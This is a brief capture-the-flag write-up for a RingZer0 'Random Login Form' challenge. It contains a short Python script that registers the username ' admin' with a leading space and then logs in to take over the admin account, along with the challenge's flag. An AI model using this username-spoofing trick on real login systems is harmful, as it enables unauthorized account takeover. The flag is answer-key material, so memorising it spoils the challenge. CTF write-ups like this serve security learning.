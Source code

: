 <h1>Random Login Form</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10171/</p>
<h3>Solution</h3>

```python3
import requests

s = requests.Session()
url = "http://challenges.ringzer0ctf.com:10171/"
data = {"new":" admin","new_password":"1234","submit":"Register"}
res = s.post(url,data=data).text
data = {"username":" admin","password":"1234"}
res = s.post(url,data=data).text
print(res)
```
<p>Payload : <<space>>admin == admin</p>

<h3>Flag</h3>
<pre>
FLAG-0Kg64o8M9gPQfH45583Mc0jc3u
</pre>
